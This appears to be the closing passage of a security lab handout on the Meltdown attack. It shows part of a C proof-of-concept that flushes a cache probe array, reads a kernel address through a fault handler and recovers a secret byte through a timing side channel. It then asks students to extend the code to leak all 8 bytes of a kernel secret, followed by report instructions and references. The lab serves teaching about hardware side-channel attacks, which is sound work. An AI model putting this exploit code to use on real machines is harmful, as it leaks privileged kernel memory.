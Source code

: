 ```
   // Flush the probing array
   for (j = 0; j < 256; j++)
     _mm_clflush(&array[j* 4096 + DELTA]);

   if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

   reloadSideChannelImproved();
}

// Find the index with the highest score.
int max = 0;
for (i = 0; i < 256; i++) {
if (scores[max] < scores[i]) max = i;
}

printf("The secret value is %d %c\n", max, max);
printf("The number of hits is %d\n", scores[max]);

return 0;
}
```

Please compile and run the code, and explain your observations. The code above only steals a one-byte
secret from the kernel. The actual secret placed in the kernel module has 8 bytes. You need to modify the
above code to get all the 8 bytes of the secret.


## 8 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.

## References

[1] Pavel Boldin. Explains about little assembly code #33. https://github.com/paboldin/meltdown-exploit/issues/33, 2018.

[2] Wikipedia contributors. Out-of-order execution — wikipedia, the free encyclopedia.
https://en.wikipedia.org/w/index.php?title=Out-of-order_execution&oldid=826217063, 2018. [Online; accessed 21-February-2018].

[3] Wikipedia contributors. Protection ring — wikipedia, the free encyclopedia. https://en.wikipedia.org/w/index.php?title=Protection_ring&oldid=819149884, 2018.
[Online; accessed 21-February-2018].
